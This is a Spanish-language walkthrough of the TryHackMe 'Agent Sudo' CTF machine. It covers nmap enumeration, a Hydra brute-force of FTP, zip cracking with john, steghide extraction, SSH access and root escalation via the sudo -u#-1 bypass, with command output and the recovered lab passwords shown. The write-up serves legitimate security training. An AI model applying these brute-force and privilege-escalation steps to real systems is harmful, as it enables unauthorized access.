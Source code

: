 # Resolución de la Máquina: Agent Sudo

- **Plataforma:** TryHackMe
- **Dificultad:** Fácil
- **Fecha de resolución:** 16/06/2025
- **Sistema Operativo:** Linux


## Descripción

**Agent Sudo** es una máquina de nivel fácil diseñada para introducir a los usuarios en conceptos fundamentales de pruebas de penetración web y escalada de privilegios en sistemas Linux. Es ideal para principiantes que están dando sus primeros pasos en entornos de CTF.

Durante la resolución, el atacante debe identificar una vulnerabilidad web común que permite obtener acceso inicial al sistema. Posteriormente, se explora una sencilla pero efectiva técnica de escalada de privilegios basada en archivos SUID mal configurados.

Esta máquina es útil para practicar:

> Enumeración web y de servicios básicos

> Comprensión de inyecciones simples o ejecución remota de comandos

> Técnicas básicas de post-explotación

> Identificación de binarios con permisos indebidos en sistemas Linux  


## Enumeración

### Escaneo con Nmap

```bash
$ nmap -p- --open -sS -sV -sC -T4 -n -Pn 10.10.220.41
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-16 12:03 EDT
Nmap scan report for 10.10.220.41
Host is up (0.060s latency).
Not shown: 63608 closed tcp ports (reset), 1924 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.33 seconds
```
## Intrusión
Accediendo mediante navegador al http encontraremos el siguiente mensaje:
```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```
Para continuar es importante que entendamos el concepto de User-Agent.
El User-Agent es una cabecera HTTP que los clientes (como navegadores web, herramientas como curl, bots, etc.) envían al servidor cada vez que hacen una petición, este permite que los servidores web adapten su comportamiento en función del cliente que se conecta.

Mediante curl podremos enviar User-Agents que creamos que pueden ser propensos a existir en la web (-A "x"), con -L habilitaremos la redirección, para que en caso de que el User-Agent exista nos pueda redirigir hacia el.
`curl -A "C" -L http://10.10.156.39/`
**También podriamos haber utilizado la función responder de Burpsuite**

## Obtención de acceso
Una vez obtenido el usuario "chris" procederemos a lanzar un ataque de diccionario con hydra
```bash
$ hydra -l chris -P /home/kali/Downloads/rockyou.txt 10.10.156.39 ftp      
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-16 12:42:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.156.39:21/
[21][ftp] host: 10.10.156.39   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-16 12:43:31
```
Una vez conectados al FTP nos descargaremos todo el contenido con el comando get.

Utilizaremos binwalk, este escanea el archivo binario buscando firmas de archivos conocidas (por ejemplo, firmas de ZIP, JPEG, gzip, squashfs, etc.) usando una base de datos interna.
```bash
$ binwalk cutie.png      

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
Vemos que este ha detactado contenido oculto en la imágen, por lo que procederemos a extrarlo
```bash
binwalk -e cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
869           0x365           Zlib compressed data, best compression

WARNING: Extractor.execute failed to run external extractor 'jar xvf '%e'': [Errno 2] No such file or directory: 'jar', 'jar xvf '%e'' might not be installed correctly
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt

WARNING: One or more files failed to extract: either no utility was found or it's unimplemented
```

Nos encontraremos con un archivo zip protegido con contraseña, ahora utilizaremos zip2john, su función es extraer hashes de archivos zip.

```bash
─$ zip2john 8702.zip > hash.txt

─$ john --wordlist=/home/kali/Downloads/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:00 DONE (2025-06-16 13:01) 1.162g/s 28576p/s 28576c/s 28576C/s merlina..280690
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Veremos que obtenemos la contraseña alien, una vez descomprimido el zip nos encontraremos un txt con la siguiente información: QXJlYTUx
Al pasarlo por la web de cyberchef veremos que esta en base64 y lo decodifica como: Area51

A continuación utilizaremos steghide, una herramienta de esteganografía, que permite ocultar datos dentro de archivos multimedia (como imágenes JPEG, BMP o archivos WAV) y extraerlos posteriormente.
```bash
-$ steghide extract -sf  cute-alien.jpg -p Area51
wrote extracted data to "message.txt".
```
**-sf hace referencia al stego file y -p a la contraseña**

Obtendremos las siguientes credenciales: james - hackerrules!
Accederemos mediante ssh con estas credenciales.

## Escalada de privilegios
Realizando un sudo -l podemos ver que podemos ejecutar /bin/bash como sudo.
Una búsqueda en google nos muestra como podemos aprovechar sudo -u#-1 /bin/bash, ejecutando `bash sudo -u#-1 /bin/bash` podremos acceder al usuario root.
